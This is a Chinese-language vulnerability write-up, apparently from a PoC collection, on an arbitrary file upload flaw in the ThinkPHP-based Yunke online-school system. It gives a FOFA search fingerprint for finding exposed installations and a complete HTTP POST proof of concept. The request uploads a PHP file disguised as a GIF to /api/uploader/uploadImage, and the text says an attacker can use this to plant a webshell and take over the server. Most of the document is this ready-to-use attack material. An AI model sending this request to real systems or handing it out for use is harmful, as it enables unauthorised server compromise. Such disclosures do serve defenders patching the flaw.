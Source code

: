 # 云课网校系统文件上传漏洞(DVB-2024-6594)

云课网校系统是一款基于ThinkPhP框架的网校系统，包含直播，点播，考试，问答，论坛，文章等模块，是一款最具性价比的线上学习系统。该系统存在任意文件上传漏洞，攻击者可以直接上传webshell文件获取服务器权限

## fofa

```yaml
"/static/libs/common/jquery.stickyNavbar.min.js"
```

## poc

```yaml
POST /api/uploader/uploadImage HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: no-cache
Connection: keep-alive
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarykvjj6DIn0LIXxe9m
x-requested-with: XMLHttpRequest

------WebKitFormBoundaryLZbmKeasWgo2gPtU
Content-Disposition: form-data; name="file"; filename="1G3311040N.php"
Content-Type: image/gif

<?php phpinfo();?>
------WebKitFormBoundaryLZbmKeasWgo2gPtU--
```

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407190040362.png)